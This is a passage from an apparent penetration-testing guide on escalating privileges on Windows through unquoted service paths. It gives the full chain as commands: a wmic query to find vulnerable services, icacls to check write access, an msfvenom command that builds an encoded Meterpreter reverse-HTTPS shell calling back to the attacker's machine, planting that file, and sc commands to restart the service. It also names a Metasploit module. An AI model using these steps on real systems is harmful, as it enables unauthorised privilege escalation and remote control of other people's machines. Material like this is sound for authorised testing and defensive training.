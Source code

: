 When Windows tries to locate the program, it guesses and tries to execute any word before a space. For example, in the unquoted service path above, Windows will try:

```text
C:\Program.exe

C:\Program Files\Some.exe

C:\Program Files\Some Software\Software.exe
```

An attacker could exploit this behaviour by putting a malicious program earlier in the file path so that Windows executes it before the legitimate one. In order for this to be successful, these conditions must be true:

1. There is a service with an unquoted binary path containing one or more spaces in the path
2. The current user has Write permissions for the folders containing spaces
3. There is a way to reboot the system or service in order to execute a payload

List all services with an unquoted service path:

```text
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

If this returns a an unquoted service path, use icacls to check permissions on each directory in the path:

```text
icacls "C:\Program Files\Some Software\"
```

If you can write to this directory, you can replace the executable with malicious one called `Some.exe`. This principle also applies to higher folders in the directory structure, if you have write permissions \('C:\' and 'C:\Program Files\'.

You can create a malicious .exe that sends a reverse shell to your machine with Metasploit \(assuming there is no antivirus, haha\):

```text
msfvenom -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai LHOST=[attack machine] LPORT=443 -f exe -o servicename.exe
```

Then restart the service:

```text
sc stop [service name]

sc start [service name]
```

If you don't have permission to restart the service, you'll have to wait for a system reboot or a more privileged user to restart it.

If you're super lazy you can just use this Metasploit module: `exploit/windows/local/trusted_service_path`

## Modifying binary service path
